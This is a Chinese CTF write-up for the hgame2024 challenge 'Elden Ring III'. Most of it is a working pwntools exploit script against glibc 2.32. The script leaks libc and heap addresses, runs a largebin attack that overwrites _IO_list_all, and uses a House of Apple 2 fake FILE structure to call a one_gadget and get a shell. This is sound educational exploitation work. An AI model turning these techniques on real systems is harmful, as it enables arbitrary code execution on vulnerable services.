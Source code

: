 ```yaml
---
title: hgame2024 week3 - Elden Ring III
date: 2024/2/22 19:25:00
updated: 2024/8/26 17:18:00
tags:
    - heap - largebin
    - largebin attack
    - House of Apple 2
    - libc2.32
excerpt: 本题主要通过Largebin攻击和House of Apple 2技术，利用glibc 2.32中的漏洞进行利用和提取libc及堆地址。
---
```


{% note %}
write some large notes
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.32  
反编译发现只能分配large bin，那就干脆学一下Largebin attack和House of Apple吧，
以后打高版本libc都要用到

我会在参考一栏列出优质的博客，没有它们，我不能做出这题！还有就是在打Apple的时候，
要想进入overflow分支，还需要伪造的IO_FILE里`_IO_write_ptr > _IO_write_base`

另，自glibc 2.38开始，调用链发生变化，`_IO_flush_all_lockp`已更名为`_IO_flush_all`，
但是apple2仍然能打，不影响

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering3')
        if lo & 2:
            gdb.attach(sh, gdbscript='b show_note')
    else:
        sh = remote('139.196.183.57', 30273)
    libc = ELF('eldering3s/libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recv(7)

    def withdraw(): # quit and exit is Python builtin functions
        sh.sendlineafter(b'>', b'5')

    # leak libc and heap
    addn(0, 0x600)
    addn(1, 0x600) # guard chunk (prevent consolidating)
    addn(2, 0x600)
    addn(3, 0x600) # guard chunk
    deln(0)        # fd is around libc in Unsorted bin
    edit(0, b'\n') # 1st char is 0, so we had to make the address leak-able
    ret = show(0)
    ret = b'\0' + ret[1:6]
    edit(0, b'\0') # restore original value
    deln(2)        # fd of chunk 2 is chunk 0
    heap = show(2)
    deln(3)
    deln(1)        # restore empty heap

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wfileJumps = libcBase + libc.symbols['_IO_wfile_jumps']

    heapBase = u64(heap[:6] + b'\0\0') - 0x290
    success(f'\x1b[33mleak heapBase: {hex(heapBase)}\x1b[0m')

    # large bin attack
    fd = bk = libcBase + dumpArena + 0x4d0
    fdNext = heapBase + 0x290 # original values
    bkNext = ioListAll - 0x20 # write chunk 1 addr on _IO_list_all
    addn(0, 0x620)
    addn(15, 0x508)           # guard chunk
    addn(1, 0x610)
    addn(14, 0x508)           # guard chunk
    deln(0)                   # now in unsorted bin
    addn(2, 0x630)            # put chunk 0 in large bin
    deln(1)                   # now in unsorted bin
    edit(0, p64(fd) + p64(bk) + p64(fdNext) + p64(bkNext))
    addn(13, 0x630)           # put chunk 1 in large bin, trigger arbitrary write

    # house of apple 2
    forceChunk = heapBase + 0xdd0 # & chunk 1.prev_size
    fakeFile = FileStructure()    # _flags = 0, _IO_read_ptr = 0x621
    fakeFile.vtable = wfileJumps
    fakeFile._IO_write_ptr = 1
    fakeFile._wide_data = forceChunk + 0xe0
    # fakeFile._lock = lock
    fakeWideData = b'\0'*0xe0 + p64(forceChunk + 0xe0 + 0xe8) # 0xe0 bytes of 0 and _wide_vtable
    oneGadget = libcBase + 0xdf54f
    fakeWfileJumpTable = b'\0'*0x68 + p64(oneGadget)          # 0x68 bytes of 0 and __do_allocate
    # note that _flags and _IO_read_ptr is filled by chunk structure,
    # so we need to exclude them to keep the correct alignment
    edit(1, bytes(fakeFile)[16:] + fakeWideData + fakeWfileJumpTable)

    withdraw()
    sh.clean()
    sh.interactive()
```

## 参考

1. [Largebin Attack典例](https://www.anquanke.com/post/id/244018)
2. [House of Apple 2官方示例](https://bbs.kanxue.com/thread-273832.htm)
3. [House of Apple 2实操&调用链](https://ywhkkx.github.io/2022/11/10/House%20Of%20Apple-2.34-64/)
